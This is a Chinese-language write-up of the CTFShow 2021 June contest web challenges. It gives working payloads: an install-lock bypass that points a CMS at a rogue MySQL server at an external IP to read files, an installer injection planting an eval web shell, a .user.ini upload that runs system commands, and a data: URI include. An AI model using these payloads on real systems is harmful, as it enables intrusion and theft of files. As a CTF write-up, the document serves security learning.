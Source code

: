# CTFShow2021六月赛Web



## baby_captcha

嗯。。。阴间题。。。。呜呜呜

就是直接爆破，先听一个正确的验证码，然后直接bp爆破，别管302，爆破正确了会直接返回200：

![pic7](D:\this_is_feng\github\CTF\Web\picture\pic7.png)

![pic8](D:\this_is_feng\github\CTF\Web\picture\pic8.png)

爆破的脚本也在题目的首页给了，是github上的password500。



## ctfshowcms

我出的一个简单的代码审计，取自某个新手入门审计的CMS。其实真正的对于渗透利用不大，但是感觉这种思路挺有意思的，很适合用来当CTF题目来出。



index.php存在一个任意的php文件包含：

```php
$want = addslashes($_GET['feng']);
$want = $want==""?"index":$want;

include('files/'.$want.".php");
```

因为php版本不是那么低，没法造成截断之类的，所以没法直接任意读。

admin.php里没有利用，但是有比较微小的提示：

```php
    }else if($choice ==="giveMeTheYellowPicture"){
        echo "http://127.0.0.1:3306/";
```

提示了本地要利用数据库，其实后面也挺明显的了。

/install/index.php的话有安装锁的检测：

```php
if(file_exists("installLock.txt")){
    echo "你已经安装了ctfshowcms，请勿重复安装。";
    exit;
}
```

这里用的是相对路径，直接安装的话没法二次安装。但是考虑到入口的index.php并不在install目录下，如果利用上面的文件包含，则可以利用路径的问题绕过安装锁的检测，进行二次安装。

安装的代码也很少，有用的就这些：

```php
// 连接数据库
$db = mysql_connect ( $dbhost, $dbuser, $dbpwd )  or die("数据库连接失败");
// 选择使用哪个数据库
$a = mysql_select_db ( $dbname, $db );
// 数据库编码方式
$b = mysql_query ( 'SET NAMES ' . 'utf-8', $db );
if(file_exists("ctfshow.sql")){
    echo "正在写入数据库！";
}else{
    die("sql文件不存在");
}
$content = "<?php
\$DB_HOST='".$dbhost."';
\$DB_USER='".$dbuser."';
\$DB_PWD='".$dbpwd."';
\$DB_NAME='".$dbname."';
?>
";
file_put_contents(ROOT_PATH."/data/settings.php",$content);
echo "数据库设置写入成功！~"."<br>";
$of = fopen(ROOT_PATH.'/install/installLock.txt','w');
if($of){
    fwrite($of,"ctfshowcms");
}
echo "安装成功！";
```

师傅们可以尝试settings.php写马，但是这里：

```php
if(file_exists("ctfshow.sql")){
    echo "正在写入数据库！";
}else{
    die("sql文件不存在");
}
```

之前通过相对路径进行了二次安装，那么这里的话就一定会`die`了，没法成功写马，因此二次安装能利用到得代码就只有这三行：

```php
// 连接数据库
$db = mysql_connect ( $dbhost, $dbuser, $dbpwd )  or die("数据库连接失败");
// 选择使用哪个数据库
$a = mysql_select_db ( $dbname, $db );
// 数据库编码方式
$b = mysql_query ( 'SET NAMES ' . 'utf-8', $db );
```

存在一个数据库任意连接得问题，可以构造一个恶意的mysql服务端来读取任意文件。这个姿势也不多说了，最近的比赛见的也挺多的了，参考文章：

https://www.modb.pro/db/51823

payload:

```
http://www.xxxx.com?feng=../install/index

user=1&password=1&dbhost=118.31.168.198:39222&dbuser=1&dbpwd=1&dbname=1&dbport=1
```

我的恶意mysql服务端扔在了39222端口。



感觉也算是一种新的思路叭，我觉得很多的CMS可能都逃不掉这种问题，只要能二次安装，要么能配置文件写shell，要么存在mysql恶意服务端的连接来实现任意文件读取，但是我几乎还没发现对于一些CMS二次安装的审计中有提到这种利用，所以拿来出了题。



## 应该不难

直接查一下已有的洞，查到了这个install写shell：

https://zhuanlan.zhihu.com/p/39793706

直接打：

```
step=3&install_ucenter=yes&dbinfo%5Bdbhost%5D=localhost&dbinfo%5Bdbname%5D=ultrax&dbinfo%5Bdbuser%5D=root&dbinfo%5Bdbpw%5D=root&dbinfo%5Btablepre%5D=pre_');eval($_POST[0]);//&dbinfo%5Badminemail%5D=admin%40admin.com&admininfo%5Busername%5D=admin&admininfo%5Bpassword%5D=123456&admininfo%5Bpassword2%5D=123456&admininfo%5Bemail%5D=admin%40admin.com&submitname=%E4%B8%8B%E4%B8%80%E6%AD%A5
```

```
http://2409f9a7-af91-4c18-827c-0f93d4c0babf.challenge.ctf.show:8080/uc_server/data/config.inc.php

0=system("cat /flag");
```





## baby_php

有点离谱得题目，关键在这里：

```php
$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);  
```

很明显要传文件，想办法绕这里：

```php
if($action==='upload'){                                                 
    die('Permission denied');                                           
}                                                                       
                                                                        
switch ($action) {                                                      
    case 'upload':                                                      
```

`switch`那里用得是弱类型比较，但是很明显得就是，我们传入得`$_GET['a']`是一个字符串，字符串与字符串之间没法弱类型比较（我的意思是就本题来说不涉及数字）。

查一下：

![pic6](D:\this_is_feng\github\CTF\Web\picture\pic6.png)

会发现能跟字符串松散比较返回	`true`的只有`true`,0,还有字符串本身。

注意一下这个：`$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);` 注意`highlight_file`的返回值：

> 高亮成功返回 TRUE，否则返回 FALSE。



所以其实这题可以不用传a，默认都是进`case upload`的。

然后就是正常的文件上传了，传一下`.user.ini`，然后传脚本即可：

```
content=auto_prepend_file="1.txt"&name=.user.ini

content=<?=system("cat /*");?>&name=/var/www/html/1.txt
```



## 完美的缺点

想了一下，我想利用这里：

```php
if(file_get_contents('php://input')==='ctfshow'){
    include($file_name);
}
```

```php
$file_name = substr($_GET['file_name'], 0,16);
```

试了一下，正好16个字符：

```php
data:,<?=`nl *`;
```

```
?file_name=data:,<?=`nl%20*`;

ctfshow
```



而且我好像是唯一一个预期解，其他的师傅用的都是远程文件包含。
